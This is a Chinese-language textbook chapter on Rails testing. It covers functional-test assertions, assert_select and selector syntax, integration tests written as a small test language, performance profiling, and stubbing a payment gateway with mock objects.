你经常需要在功能测试中发布表单数据。为此，你需要知道数据是作为嵌套在 `params` 哈希内的哈希返回的。这个子哈希的键是你创建表单时给定的名称。子哈希内部是对应于表单字段的键/值对。所以，要向包含用户模型数据的 `edit` 动作发布一个表单，其中数据包含 `name` 和 `age`，你可以使用：

```
post :edit, :user => { :name => "dave", :age => "24" }
```

你可以使用以下方法模拟 `xml_http_request`：

```
xhr(method, action, parameters, session, flash)
xml_http_request(method, action, parameters, session, flash)
```

模拟来自 JavaScript 客户端的 `xml_http_request` 到服务器。第一个参数可以是 `:post` 或 `:get`。其余参数与前面描述的传递给 `get` 方法的参数相同。

```
xhr(:get, :add_to_cart, :id => 11)
```

###### 断言

除了我们在第 197 页列出的标准断言之外，执行请求后还可以使用额外的功能测试断言。

```
assert_dom_equal(expected_html, actual_html,message)
assert_dom_not_equal(expected_html, actual_html,message)
```

比较两个包含 HTML 的字符串，如果它们由相同/不相同的文档对象模型表示，则断言成功。因为该断言比较的是两个字符串的规范版本，所以在面对应用程序变更时可能不够健壮。建议考虑使用 `assert_select`。

```
expected = "<html><body><h1>User Unknown</h1></body></html>"
assert_dom_equal(expected, @response.body)
```

####### assert_response(type, message)

断言响应是一个数字 HTTP 状态码或以下符号之一。这些符号可以覆盖一系列响应代码（所以 `:redirect` 意味着状态码 300–399）。

-   * :success
-   :redirect
-   :missing
-   :error

示例：

```
assert_response :success
assert_response 200
```

####### assert_redirected_to(options, message)

断言传入的重定向选项与上次动作中调用的重定向选项匹配。你也可以传递一个简单的字符串，该字符串与重定向生成的 URL 进行比较。

示例：

```
assert_redirected_to :controller => 'login'
assert_redirected_to :controller => 'login', :action => 'index'
assert_redirected_to "http://my.host/index.html"
```

####### assert_template(expected, message)

断言请求是使用指定的模板文件渲染的。

示例：

```
assert_template 'store/index'
```

####### assert_select(...)

参见第 207 页，第 13.3 节“测试响应内容”。

####### assert_tag(...)

已弃用，请使用 `assert_select` 代替。

Rails 有一些额外的断言来测试控制器的路由组件。我们在第 423 页，第 20.2 节“测试路由”中讨论这些。

###### 变量

执行请求后，功能测试可以使用以下变量中的值进行断言。

####### assigns(key=nil)

在上一个动作中被赋值的实例变量。

```
assert_not_nil assigns["items"]
```

`assigns` 哈希必须使用字符串作为索引引用。例如，`assigns[:items]` 将不起作用，因为键是一个符号。要使用符号作为键，请使用方法调用而不是索引引用。

```
assert_not_nil assigns(:items)
```

我们可以用以下方式测试控制器动作是否找到了三个订单：

```
assert_equal 3, assigns(:orders).size
```

####### session

会话中的对象哈希。

```
assert_equal 2, session[:cart].items.size
```

####### flash

当前在会话中的 flash 对象哈希。

```
assert_equal "Danger!", flash[:notice]
```

####### cookies

发送给用户的 cookies 哈希。

```
assert_equal "Fred", cookies[:name]
```

####### redirect_to_url

上一个动作重定向到的完整 URL。

```
assert_equal "http://test.host/login", redirect_to_url
```

###### 功能测试辅助方法

Rails 在功能测试中提供以下辅助方法。

####### find_tag(conditions)

在响应中查找一个标签，使用与 `assert_tag` 相同的条件。

```
get :index
tag = find_tag :tag => "form",
        :attributes => { :action => "/store/add_to_cart/993" }
assert_equal "post", tag.attributes["method"]
```

这可能更适合用 `assert_select` 来编写。

####### find_all_tag(conditions)

返回满足给定条件的标签数组。

####### follow_redirect

如果前面的动作产生了重定向，此方法将通过发出一个 GET 请求来跟随它。功能测试只能跟随重定向到其自身控制器的重定向。

```
post :add_to_cart, :id => 123
assert_redirect :action => :index
follow_redirect
assert_response :success
```


fixture_file_upload(path, mime_type)

创建通常由浏览器 `<input type="file"...>` 字段上传的 MIME 编码内容。使用此方法在 POST 请求中设置相应的表单参数。

```ruby
post :report_bug,
    :screenshot => fixture_file_upload("screen.png", "image/png")
```

##### 测试响应内容

Rails 1.2 引入了一个新的断言 `assert_select`，它允许你深入探究应用程序返回的响应的结构和内容。（它取代了现已弃用的 `assert_tag`。）例如，一个功能测试可以使用以下断言验证响应包含一个 `title` 元素，其中包含文本“Pragprog Books Online Store”

```ruby
assert_select "title", "Pragprog Books Online Store"
```

对于更高级的用法，以下测试验证响应包含一个 id 为 `cart` 的 `<div>`。在该 `<div>` 中必须有一个包含三行的 `table`。在类为 `total-line` 的行中，最后一个 `<td>` 的内容必须是 $57.70。

```ruby
assert_select "div#cart" do
  assert_select "table" do
    assert_select "tr", :count => 3
    assert_select "tr.total-line td:last-of-type", "$57.70"
  end
end
```

这显然是强大的功能。让我们花些时间来研究它。

`assert_select` 基于 Assaf Arkin 的 `HTML::Selector` 库构建。该库允许你使用一种大量借鉴级联样式表选择器的语法来导航格式良好的 HTML 文档。在选择器之上，Rails 增加了对结果节点集执行一组测试的能力。让我们首先看看选择器语法。

##### 选择器

选择器语法很复杂——可能比正则表达式更复杂。然而，它与 CSS 选择器语法的相似性意味着，如果下面的简要总结过于浓缩，你应该能够在网上找到许多示例。在下面的描述中，我们将借用 W3C 用于描述选择器的术语。[4]

一个完整的选择器称为选择器链。选择器链是一个或多个简单选择器的组合。让我们首先看看简单选择器。

[4] http://www.w3.org/TR/REC-CSS2/selector.html

###### 简单选择器

一个简单选择器由一个可选的*类型选择器*，后跟任意数量的*类选择器*、*id 选择器*、*属性选择器*或*伪类*组成。

类型选择器只是文档中标签的名称。例如，类型选择器

```css
p
```

匹配文档中的所有 `<p>` 标签。（值得强调“所有”这个词——选择器处理的是文档节点的集合。）

如果省略类型选择器，则选择文档中的所有节点。

类型选择器可以用*类选择器*、*id 选择器*、*属性选择器*或*伪类*来限定。每个限定符都会缩小所选节点的集合。类和 ID 选择器很简单。

```css
p#some-id          # 选择 id="some-id" 的段落

p.some-class       # 选择 class="some-class" 的段落
```

属性选择器出现在方括号之间。语法是

```css
p[name]            # 具有属性 name= 的段落
p[name=value]      # 具有属性 name=value 的段落
p[name^=string]    # ... name=value，值以 'string' 开头
p[name$=string]    # ... name=value，值以 'string' 结尾
p[name*=string]    # ... name=value，值必须包含 'string'
p[name~=string]    # ... name=value，值必须包含 'string'
                   # 作为空格分隔的单词
p[name|=string]    # ... name=value，值以 'string' 开头
                   # 后跟一个空格
```

让我们看一些例子。

```css
p[class=warning]   # 所有 class="warning" 的段落

tr[id=total]       # id="total" 的表格行

table[cellpadding] # 所有具有 cellpadding 属性的 table 标签

div[class*=error]  # 所有 class 属性包含文本 error 的 div 标签

p[secret][class=shh] # 所有同时具有 secret 属性
                   # 和 class="shh" 属性的 p 标签

[class=error]      # 所有 class="error" 的标签
```

类和 id 选择器是 `class=` 和 `id=` 的快捷方式。

```css
p#some-id          # 等同于 p[id=some-id]
p.some-class       # 等同于 p[class=some-class]
```

###### 链式选择器

你可以组合多个简单选择器来创建链式选择器。这些选择器允许你描述元素之间的关系。在下面的描述中，*sel_1*、*sel_2* 等代表简单选择器。

*sel_1* ` ` *sel_2*s
所有以 *sel_1* 为祖先的 *sel_2*。（选择器之间用一个或多个空格分隔。）

*sel_1* > *sel_2*s
所有以 *sel_1* 为父元素的 *sel_2*。因此：

```css
table  td       # 将匹配 table 标签内的所有 td 标签
table > td      # 在格式良好的 HTML 中不会匹配，
                # 因为 td 标签的父标签是 tr 标签
```

*sel_1* + *sel_2*s
选择所有紧随 *sel_1* 之后的 *sel_2*。请注意，“跟随”意味着两个选择器描述的是同级节点，而不是父/子节点。

```css
td.price + td.total    # 选择所有类为 "total" 的 td 节点
                      # 这些节点紧跟在 <td class="price"> 之后
```

*sel_1* ~ *sel_2*s
选择所有跟随 *sel_1* 的 *sel_2*。

```css
div#title ~ p  # 所有在 <div id="title"> 之后
               # 的 p 标签
```

*sel_1*, *sel_2*s
选择所有被 *sel_1* 或 *sel_2* 选中的元素。

```css
p.warn, p.error # 所有类为 warn 或 error 的段落
```

###### 伪类

伪类通常允许你根据元素的位置来选择它们（尽管有一些例外）。它们都以冒号为前缀。

`:root`
仅选择根元素。在测试 XML 响应时有时很有用。

```css
order:root      # 仅当响应的根元素是 <order> 时
                # 才返回选择结果
```

*sel*:empty
仅在 *sel* 既没有子节点也没有文本内容时选择。

```css
div#error:empty  # 仅当节点 <div id="error">
                # 为空时才选择它
```

**`sel_1 sel_2:only-child`**
选择是 `sel_1` 节点唯一子节点的节点。

```css
div :only-child    # 选择 div 中只有一个子节点的
                   # 子节点
```

**`sel_1 sel_2:first-child`**
选择所有作为 `sel_1` 节点第一个子节点的 `sel_2` 节点。

```css
table tr:first-child    # 每个表格的第一行
```

**`sel_1 sel_2:last-child`**
选择所有作为 `sel_1` 节点最后一个子节点的 `sel_2` 节点。

```css
table tr:last-child    # 每个表格的最后一行
```

**`sel_1 sel_2:nth-child(n)`**
选择所有作为 `sel_1` 节点的第 *n* 个子节点的 `sel_2` 节点，其中 *n* 从 1 开始计数。这与后面描述的 `nth-of-type` 形成对比。

```css
table tr:nth-child(2)   # 每个表格的第二行

div p:nth-child(2)      # 每个 div 的第二个元素
                       # 如果该元素是 <p>
```

**`sel_1 sel_2:nth-last-child(n)`**
选择所有作为 `sel_1` 节点的第 *n* 个子节点的 `sel_2` 节点，从末尾开始计数。

```css
table tr:nth-last-child(2)   # 每个表格的倒数第二行
```

**`sel_1 sel_2:only-of-type`**
选择所有作为 `sel_1` 节点唯一子节点的 `sel_2` 节点。（也就是说，`sel_1` 节点可能有多个子节点，但只有一个类型为 `sel_2` 的子节点。）

```css
div p:only-of-type   # 所有包含仅一个段落的 div 中
                    # 的段落
```

**`sel_1 sel_2:first-of-type`**
选择父节点为 `sel_1` 节点的第一个类型为 `sel_2` 的节点。

```css
div.warn p:first-of-type   # <div class="warn"> 中的第一个段落
```

**`sel_1 sel_2:last-of-type`**
选择父节点为 `sel_1` 节点的最后一个类型为 `sel_2` 的节点。

```css
div.warn p:last-of-type    # <div class="warn"> 中的最后一个段落
```

**`sel_1 sel_2:nth-of-type(n)`**
选择所有作为 `sel_1` 节点的第 *n* 个子节点的 `sel_2` 节点，但仅计算类型与 `sel_2` 匹配的节点。

```css
div p:nth-of-type(2)   # 每个 div 的第二个段落
```


##### 面向响应的断言

`assert_select`断言可用于功能测试和集成测试。其最简单的形式接受一个选择器。如果响应中至少有一个节点匹配，断言则通过；如果没有节点匹配，则断言失败。

```ruby
assert_select "title"            # 我们的响应是否包含一个<title>标签
assert_select "div.cart > div#cart-title"
```

除了简单地测试所选节点的存在外，你还可以将它们的内容与字符串或正则表达式进行比较。只有当所有选中的节点都等于该字符串或匹配该正则表达式时，断言才会通过。

```ruby
assert_select "title",  "Pragprog Online Book Store"
assert_select "title",  /Online/
```

相反，如果你传递一个数字或Ruby范围，如果节点的数量等于该数字或落在该范围内，则断言通过。

```ruby
assert_select "title", 1                           # 必须只有一个title元素
assert_select "div#main div.entry", 1..10   # 页面上有一到十个条目
```

将`false`作为第二个参数传递等同于传递零：如果没有选中节点，则断言成功。

你还可以在选择器后传递一个哈希值，从而允许你测试多个条件。例如，要测试恰好有一个title节点且该节点匹配正则表达式`/pragprog/`，你可以使用

```ruby
assert_select "title", :count => 1, :text => /pragprog/
```

该哈希可以包含以下键：

- `:text` => 字符串或正则表达式，必须与节点的内容匹配。
- `:count` => *n*。必须恰好选中*n*个节点。
- `:minimum` => *n*。至少选中了*n*个节点。
- `:maximum` => *n*。最多选中了*n*个节点。

###### 嵌套选择断言

一旦`assert_select`选择了一组节点并通过了与这些节点相关的任何测试，你可能希望在该节点集内执行额外的测试。例如，我们本节开头的测试检查了页面是否包含一个id为cart的`<div>`。这个`<div>`应该包含一个table，而这个table本身应该恰好包含三行。带有`total-line`类的行中的最后一个`<td>`应该包含内容`$57.70`。

我们可以用一系列断言来表达这一点。

```ruby
assert_select "div#cart"
assert_select "div#cart table tr", 3
assert_select "div#cart table tr.total-line td:last-of-type", "$57.70"
```

通过在块中嵌套选择，我们可以将其整理得更清晰。

```ruby
assert_select "div#cart" do
  assert_select "table" do
    assert_select "tr", :count => 3
    assert_select "tr.total-line td:last-of-type", "$57.70"
  end
end
```

###### 附加断言

除了`assert_select`，Rails还提供了类似的基于选择器的断言，用于验证RJS更新和插入操作的HTML内容（`assert_select_rjs`）、XML响应中的编码HTML（`assert_selected_encoded`）以及电子邮件的HTML正文（`assert_select_email`）。详细信息请查阅Rails文档。

### 13.4 应用程序的集成测试

下一级别的测试是演练应用程序的流程。在很多方面，这就像测试我们在开始编写应用程序时客户给我们的一个故事。例如，我们可能被告知：*一个用户访问商店索引页面。他们选择一件商品，将其添加到购物车中。然后他们结账，在结账表单上填写他们的详细信息。当他们提交时，数据库中会创建一个包含他们信息的订单，以及一个与他们添加到购物车的商品对应的行项目。*

这是集成测试的理想素材。集成测试模拟一个或多个虚拟用户与我们的应用程序之间的连续会话。你可以用它们来发送请求、监控响应、跟踪重定向等等。

当你创建一个模型或控制器时，Rails会创建相应的单元测试和功能测试。然而，集成测试不会自动创建，因此你需要使用生成器来创建一个。

```
depot> ruby script/generate integration_test user_stories
exists  test/integration/
create  test/integration/user_stories_test.rb
```

请注意，Rails会自动在测试名称后添加`_test`。

让我们看看生成的文件。

```ruby
require "#{File.dirname(__FILE__)}/../test_helper"

class UserStoriesTest < ActionController::IntegrationTest
  # fixtures :your, :models

  # 将此替换为您真正的测试。
  def test_truth
    assert true
  end
end
```

这看起来有点像功能测试，但我们的测试类继承自`IntegrationTest`。

让我们直接开始并实现我们故事的测试。因为我们将会购买一些东西，所以我们需要我们的产品夹具，因此我们在类的顶部加载它。

```ruby
fixtures :products
```

就像单元测试和功能测试一样，我们的测试将写在一个以`test_`开头的方法中。

```ruby
def test_buying_a_product
  # ...
end
```

在测试结束时，我们知道我们希望向`orders`表添加一个订单，并向`line_items`表添加一个行项目，因此让我们在开始前清空它们。而且，因为我们将会经常使用Ruby book的夹具数据，所以让我们将其加载到一个局部变量中。

```ruby
LineItem.delete_all
Order.delete_all
ruby_book = products(:ruby_book)
```

让我们处理用户故事中的第一句话：*一个用户访问商店索引页面*。

```ruby
get "/store/index"
assert_response :success
assert_template "index"
```

这看起来几乎像一个功能测试。主要区别在于`get`方法：在功能测试中，我们只检查一个控制器，因此在调用`get`时我们只指定一个action。然而，在集成测试中，我们可以自由地在整个应用程序中导航，因此我们需要传递一个完整的（相对）URL来指定要调用的控制器和action。

故事中的下一句话是*他们选择一件商品，将其添加到购物车中*。我们知道我们的应用程序使用AJAX请求将商品添加到购物车，因此我们将使用`xml_http_request`方法来调用该action。当它返回时，我们将检查购物车现在是否包含了请求的商品。

```ruby
xml_http_request "/store/add_to_cart", :id => ruby_book.id
assert_response :success
```

```ruby
cart = session[:cart]
assert_equal 1, cart.items.size
assert_equal ruby_book, cart.items[0].product
```

在情节中一个惊人的转折，用户故事继续，*然后他们结账....* 这在我们的测试中很容易。

```ruby
post "/store/checkout"
assert_response :success
assert_template "checkout"
```

此时，用户需要在结账表单上填写他们的详细信息。一旦他们完成并提交数据，我们的应用程序会创建订单并重定向到索引页面。让我们从HTTP角度开始，将表单数据发布到`save_order`action，并验证我们已被重定向到索引页。我们还将检查购物车现在是否为空。测试辅助方法`post_via_redirect`生成post请求，然后跟踪返回的任何重定向，直到返回常规的200响应。

```ruby
post_via_redirect "/store/save_order",
               :order => { :name      => "Dave Thomas",
                           :address   => "123 The Street",
                           :email     => "dave@pragprog.com",
                           :pay_type => "check" }
assert_response :success
assert_template "index"
assert_equal 0, session[:cart].items.size
```

最后，我们将进入数据库，确保我们已经创建了一个订单和相应的行项目，并且它们包含的详细信息是正确的。因为我们在测试开始时清空了订单表，所以我们只需验证它现在只包含我们的新订单。

```ruby
orders = Order.find(:all)
assert_equal 1, orders.size
order = orders[0]

assert_equal "Dave Thomas",          order.name
assert_equal "123 The Street",       order.address
assert_equal "dave@pragprog.com",    order.email
assert_equal "check",                order.pay_type

assert_equal 1, order.line_items.size
line_item = order.line_items[0]
assert_equal ruby_book, line_item.product
```

就是这样。下一页显示了集成测试的完整源代码。


##### 集成测试

集成测试非常棒：我们没有发现其他框架能提供如此高层次的内置测试。但我们可以做得更好。想象一下，给你的QA人员提供一种用于应用测试的*微型语言*（有时称为*领域特定语言*）。他们可以用这样的语言来编写我们之前的测试：

```ruby
def test_buying_a_product
  dave = regular_user
  dave.get "/store/index"
  dave.is_viewing "index"
  dave.buys_a @ruby_book
  dave.has_a_cart_containing @ruby_book
  dave.checks_out DAVES_DETAILS
  dave.is_viewing "index"
  check_for_order DAVES_DETAILS, @ruby_book
end
```

这段代码使用了一个在测试类内部定义的哈希，`DAVES_DETAILS`。

```ruby
DAVES_DETAILS = {
  :name     => "Dave Thomas",
  :address  => "123 The Street",
  :email    => "dave@pragprog.com",
  :pay_type => "check"
}
```

它可能不是伟大的文学作品，但仍然相当易读。那么，我们如何为他们提供这种功能呢？这通过使用一个名为*单例方法*的巧妙Ruby设施来实现，结果发现相当简单。

如果`obj`是一个包含任何Ruby对象的变量，我们可以使用以下语法为该对象定义一个只适用于它的方法：

```ruby
def obj.method_name
  # ...
end
```

一旦我们这样做了，我们就可以像调用任何其他方法一样在`obj`上调用`method_name`。

```ruby
obj.method_name
```

这就是我们将如何实现我们的测试语言。我们将使用`open_session`方法创建一个新的测试会话，并在这个会话上定义我们所有的辅助方法。在我们的例子中，这是在`regular_user`方法中完成的。

```ruby
def regular_user
  open_session do |user|
    def user.is_viewing(page)
      assert_response :success
      assert_template page
    end

    def user.buys_a(product)
      xml_http_request "/store/add_to_cart", :id => product.id
      assert_response :success
    end

    def user.has_a_cart_containing(*products)
      cart = session[:cart]
      assert_equal products.size, cart.items.size
      for item in cart.items
        assert products.include?(item.product)
      end
    end

    def user.checks_out(details)
      post "/store/checkout"
      assert_response :success
      assert_template "checkout"

      post_via_redirect "/store/save_order",
                        :order => {
                          :name     => details[:name],
                          :address  => details[:address],
                          :email    => details[:email],
                          :pay_type => details[:pay_type]
                        }
      assert_response :success
      assert_template "index"
      assert_equal 0, session[:cart].items.size
    end
  end
end
```

`regular_user`方法返回这个增强的会话对象，我们脚本的其余部分可以使用它来运行测试。

一旦我们定义了这种微型语言，编写更多测试就很容易了。例如，这里是一个测试，验证两个用户同时购买产品时没有交互。（我们缩进了与Mike会话相关的行，以便更容易看到流程。）

```ruby
def test_two_people_buying
  dave = regular_user
  mike = regular_user

  dave.buys_a @ruby_book
  mike.buys_a @rails_book
  dave.has_a_cart_containing @ruby_book
  dave.checks_out DAVES_DETAILS
  mike.has_a_cart_containing @rails_book
  check_for_order DAVES_DETAILS, @ruby_book
  mike.checks_out MIKES_DETAILS
  check_for_order MIKES_DETAILS, @rails_book
end
```

我们从第674页开始展示微型语言版本测试类的完整列表。

# 集成测试支持

集成测试与功能测试非常相似，而且我们在单元测试和功能测试中使用的所有相同断言在集成测试中也适用。然而，需要注意一些事项，因为许多辅助方法有细微的不同。

集成测试围绕着会话的概念。会话代表浏览器中与我们应用程序交互的用户。虽然与控制器中的会话变量概念相似，但这里的“会话”一词意味着不同的东西。

当你开始一个集成测试时，你会得到一个默认会话（如果你确实需要，可以通过实例变量`integration_session`访问它）。所有集成测试方法（如`get`）实际上是这个会话上的方法：测试框架为你委托这些调用。然而，你也可以创建显式会话（使用`open_session`方法）并直接在其上调用这些方法。这使你可以同时模拟多个用户（或者创建具有不同特性的会话，在测试中按顺序使用）。我们在第217页的测试中看到了一个多重会话的例子。

集成测试会话具有以下属性。在集成测试中为它们赋值时，请谨慎使用显式接收者。

```ruby
self.accept = "text/plain"     # 有效
open_session do |sess|
    sess.accept = "text/plain"   # 有效
end
accept = "text/plain"           # 无效 - 局部变量
```

在下面的列表中，`sess`代表一个会话对象。

- **accept**
    要发送的Accept头。
    ```ruby
    sess.accept = "text/xml,text/html"
    ```

- **controller**
    对上一个请求使用的控制器实例的引用。

- **cookies**
    一个包含cookie的哈希。设置此哈希中的条目以在请求中发送cookie，并从哈希中读取值以查看响应中设置了哪些cookie。

- **headers**
    以上一个响应返回的头作为哈希。

- **host**
    将此值设置为与下一个请求关联的主机名。在编写行为依赖于主机名的应用程序时很有用。
    ```ruby
    sess.host = "fred.bloggs.com"
    ```

- **path**
    上一个请求的URI。

- **remote_addr**
    要与下一个请求关联的IP地址。如果应用程序区分本地和远程请求，可能有用。
    ```ruby
    sess.remote_addr = "127.0.0.1"
    ```

- **request**
    由上一个请求使用的请求对象。

- **response**
    由上一个请求使用的响应对象。

- **status**
    上一个请求的HTTP状态码（200、302、404等）。

- **status_message**
    与上一个请求状态码一起出现的状态消息（OK、Not Found等）。

# 集成测试便捷方法

以下方法可在集成测试中使用。

**follow_redirect!()**
如果上一个对控制器的请求导致了重定向，则跟随它。

```ruby
get(path, params=nil, headers=nil)
post(path, params=nil, headers=nil)
xml_http_request(path, params=nil, headers=nil)
```

执行带有给定参数的GET、POST或XML_HTTP请求。


路径应为包含要调用的 URI 的字符串。它不必包含协议或主机部分。如果包含且协议为 HTTPS，则会模拟发送 HTTPS 请求。如果提供了 `params` 参数，它应该是键值对的哈希或包含已编码表单数据的字符串。⁵

```
get "/store/index"
assert_response :success
get "/store/product_info", :id => 123, :format = "long"
```

`get_via_redirect(path, args={})`
`post_via_redirect(path, args={})`
执行一个 GET 或 POST 请求。如果响应是重定向，则跟随该重定向以及后续所有重定向，直到返回一个非重定向的响应。

`host!(name)`
设置下一个请求中使用的主机名。等同于设置 `host` 属性。

`https!(use_https=true)`
如果传入 `true`（或不传参数），后续请求将模拟使用 HTTPS 协议。

`https?`
如果设置了 HTTPS 标志，则返回 `true`。

`open_session { |sess| ... }`
创建一个新的会话对象。如果给出了代码块，则将会话传递给该代码块；否则返回会话。

`redirect?()`
如果最后一个响应是重定向，则返回 `true`。

`reset!()`
重置会话，允许单个测试重用一个会话。

`url_for(options)`
根据一组选项构造一个 URL。可用于生成 `get` 和 `post` 的参数。

```
get url_for(:controller => "store", :action => "index")
```

### 13.5 性能测试

测试不仅仅是看某事是否做了它该做的事。我们可能还想知道它做得是否足够快。

⁵ application/x-www-form-urlencoded 或 multipart/form-data

在我们深入探讨之前，这里有一个警告。大多数应用程序在大多数时候都运行良好，而当它们开始变慢时，其方式往往是我们始料未及的。因此，在开发初期关注性能通常是个坏主意。相反，我们建议在开发后期的两种场景下使用性能测试。

- 当你进行容量规划时，你将需要诸如处理预期负载所需的服务器数量等数据。性能测试可以帮助产生（并调整）这些数据。
- 当你已部署应用并注意到运行缓慢时，性能测试可以帮助隔离问题。而且，一旦问题被隔离，保留测试将有助于防止问题再次发生。

这类问题的一个常见例子是数据库相关的性能问题。一个应用程序可能运行良好数月，然后有人给数据库添加了一个索引。尽管这个索引有助于解决某个特定问题，但它也产生了意想不到的副作用，大幅减慢了应用程序其他部分的运行速度。

在过去（是的，就是去年），我们曾建议创建单元测试来监控性能问题。其想法是，当性能开始超过某个预设限制时，这些测试会给你发出预警：你在测试期间了解到这一点，而不是在部署之后。事实上，我们仍然建议这样做，正如我们接下来将看到的。然而，这种孤立的性能测试并非全部，在本节末尾，我们将提供其他类型性能测试的建议。

让我们从一个略显人为的场景开始。我们需要知道我们的商店控制器能否在三秒内处理创建 100 个订单。我们希望在一个包含 1,000 个产品的数据库上执行此操作（因为我们怀疑产品数量可能很重要）。我们该如何为此编写一个测试呢？

为了创建所有这些产品，让我们使用一个动态夹具。

```
Download depot_r/test/fixtures/performance/products.yml

<% 1.upto(1000) do |i| %>
product_<%= i %>:
    id:    <%= i %>
    title: Product Number <%= i %>
    description: My description
    image_url:    product.gif
    price:        1234
<% end %>
```

注意，我们已将这个夹具文件放在了 `fixtures` 目录的 `performance` 子目录中。夹具文件的名称必须与数据库表名匹配，因此我们不能在同一目录中有多个用于 `products` 表的夹具。我们希望将常规的 `fixtures` 目录保留给常规单元测试使用的测试数据，所以我们只需在子目录中放置另一个 `products.yml` 文件即可。

请注意，在测试中，我们从 1 循环到 1,000。最初尝试使用 `1000.times do |i|` 是很诱人的，但这行不通。`times` 方法生成从 0 到 999 的数字，如果我们传递 0 作为 `id` 值给 MySQL，它会忽略它并使用一个自动生成的键值。这可能导致键冲突。

现在我们需要编写一个性能测试。同样，我们希望将它们与非性能测试分开，因此我们在 `test/performance` 目录中创建一个名为 `order_speed_test.rb` 的文件。由于我们测试的是一个控制器，我们将基于标准的功能测试来编写（并且我们通过复制 `store_controller_test.rb` 中的样板代码来“作弊”）。经过初步编辑后，它看起来像这样。

```
require File.dirname(__FILE__) + '/../test_helper'
require 'store_controller'

# Reraise errors caught by the controller.
class StoreController; def rescue_action(e) raise e end; end

class OrderSpeedTest < Test::Unit::TestCase
  def setup
    @controller = StoreController.new
    @request     = ActionController::TestRequest.new
    @response    = ActionController::TestResponse.new
  end
end
```

让我们从加载产品数据开始。因为我们使用的是一个不在常规 `fixtures` 目录中的夹具，所以我们必须覆盖默认的 Rails 路径。

```
self.fixture_path = File.join(File.dirname(__FILE__), "../fixtures/performance")
fixtures :products
```

我们需要为订单表单提供一些数据；我们将使用在集成测试中使用的相同哈希值。最后，我们有了测试方法本身。

```
def test_100_orders
  Order.delete_all
  LineItem.delete_all

  @controller.logger.silence do
    elapsed_time = Benchmark.realtime do
      100.downto(1) do |prd_id|
        cart = Cart.new
        cart.add_product(Product.find(prd_id))
        post :save_order,
            { :order => DAVES_DETAILS },
            { :cart => cart }
      end
      assert_redirected_to :action => :index
    end
  end
  assert_equal 100, Order.count
  assert elapsed_time < 3.00
end
end
```

这段代码使用了 `Benchmark.realtime` 方法，它是 Ruby 标准库的一部分。它运行一段代码并返回所经过的时间（以浮点秒数表示）。在我们的例子中，该代码块使用我们创建的 1,000 个产品中的 100 个（按相反顺序，只是为了增加一些趣味）创建了 100 个订单。

你会注意到代码还有一个巧妙之处。

```
@controller.logger.silence do
end
```

默认情况下，Rails 会将其处理我们 100 个订单的所有工作追踪输出到日志文件（`test.log`）。事实证明这开销相当大，因此我们通过将日志记录放在一个禁用日志的代码块内来使其静默。在我的 G5 上，这使得执行该代码块所需的时间减少了约 30%。正如我们稍后将看到的，在实际生产代码中，有更好方法来禁用日志记录。

让我们运行性能测试。

```
depot> ruby test/performance/order_speed_test.rb
...
Finished in 3.840708 seconds.
1 tests, 102 assertions, 0 failures, 0 errors
```

它在测试环境中运行良好。然而，性能问题通常在生产环境中才会显现，那才是我们希望能够监控应用程序的地方。幸运的是，在该环境中我们也有一些选择。

#### 性能分析与基准测试

如果你只想衡量一个特定方法（或语句）的性能，你可以使用 Rails 为每个项目提供的 `script/profiler` 和 `script/benchmarker` 脚本。`benchmarker` 脚本告诉你一个方法耗时多久，而 `profiler` 则告诉你每个方法时间花在了哪里。`benchmarker` 提供相对准确的耗时，而 `profiler` 会带来显著的开销——它的绝对时间不那么重要，但相对时间是重要的。


假设（举个虚构的例子）我们注意到 `User.encrypted_password` 方法似乎耗时过长。让我们先确认这是否属实。

```
depot> ruby script/performance/benchmarker 'User.encrypted_password("secret", "salt")'
      user     system      total        real
#1    1.650000   0.030000   1.680000 (  1.761335)
```

哇，运行一个方法耗时 1.8 秒似乎太高了！让我们运行分析器深入调查一下。

```
depot> ruby script/performance/profiler 'User.encrypted_password("secret", "salt")'
Loading Rails...
Using the standard Ruby profiler.
  %   cumulative      self              self     total
 time     seconds     seconds    calls  ms/call  ms/call  name
78.65      58.63       58.63        1 58630.00 74530.00  Integer#times
21.33      74.53       15.90  1000000      0.02     0.02  Math.sin
 1.25      75.46        0.93        1    930.00   930.00  Profiler__._start_profile
 0.01      75.47        0.01       12      0.83     0.83  Symbol#to_sym
  . . .
 0.00      75.48        0.00        1      0.00     0.00  Hash#update
```

这就奇怪了：该方法似乎将大部分时间花在了 `times` 和 `sin` 方法上。让我们看看源代码：

```ruby
def self.encrypted_password(password, salt)
  1000000.times { Math.sin(1) }
  string_to_hash = password + salt
  Digest::SHA1.hexdigest(string_to_hash)
end
```

哎呀！顶部的这个循环是我在手动测试时想要减慢速度而添加的，在部署应用程序之前我一定是忘了把它删掉。看来我得一周不能用那个红色的订书机了。

最后，别忘了日志文件。它们可是获取有用定时信息的金矿。

### 13.6 使用模拟对象

在某个时候，我们需要向 Depot 应用程序添加代码，以便从我们亲爱的客户那里实际收取款项。因此，想象一下我们已经填写了所有必要的文书工作，以便将信用卡号变成我们银行账户里的真金白银。然后我们在 `lib/payment_gateway.rb` 文件中创建了一个 `PaymentGateway` 类，用于与信用卡处理网关通信。并且我们已经将 Depot 应用程序配置为通过向 `StoreController` 的 `save_order` 操作添加以下代码来处理信用卡。

```ruby
gateway = PaymentGateway.new

response = gateway.collect(:login       => 'username',
                            :password    => 'password',
                            :amount         => @cart.total_price,
                            :card_number    => @order.card_number,
                            :expiration     => @order.card_expiration,
                            :name           => @order.name)
```

当调用 `collect` 方法时，信息会通过网络发送到后端信用卡处理系统。这对我们的钱包有好处，但对我们的功能测试来说却很糟糕，因为 `StoreController` 现在依赖于与真实、活跃的信用卡处理器的网络连接。即使我们始终拥有这两者，我们仍然不希望在每次运行功能测试时都发送信用卡交易。

相反，我们只想针对一个 _模拟的_ 或替代的 `PaymentGateway` 对象进行测试。使用模拟对象可以将测试从需要网络连接中解放出来，并确保更一致的结果。值得庆幸的是，Rails 让存根对象变得轻而易举。

要在测试环境中存根 `collect` 方法，我们只需要在 `test/mocks/test` 目录中创建一个 `payment_gateway.rb` 文件。让我们看看这里的命名细节。

首先，文件名必须与我们要替换的文件的名称匹配。我们可以存根一个模型、控制器或库文件：唯一的约束是文件名必须匹配。其次，看看存根文件的路径。我们将其放在 `test/mocks` 目录的 `test` 子目录中。这个子目录包含所有在 _测试_ 环境中使用的存根文件。如果我们想在开发环境中存根文件，我们会将存根放在 `test/mocks/development` 目录中。

现在让我们看看文件本身。

```ruby
require 'lib/payment_gateway'

class PaymentGateway
  # I'm a stubbed out method
  def collect(request)
    true
  end
end
```

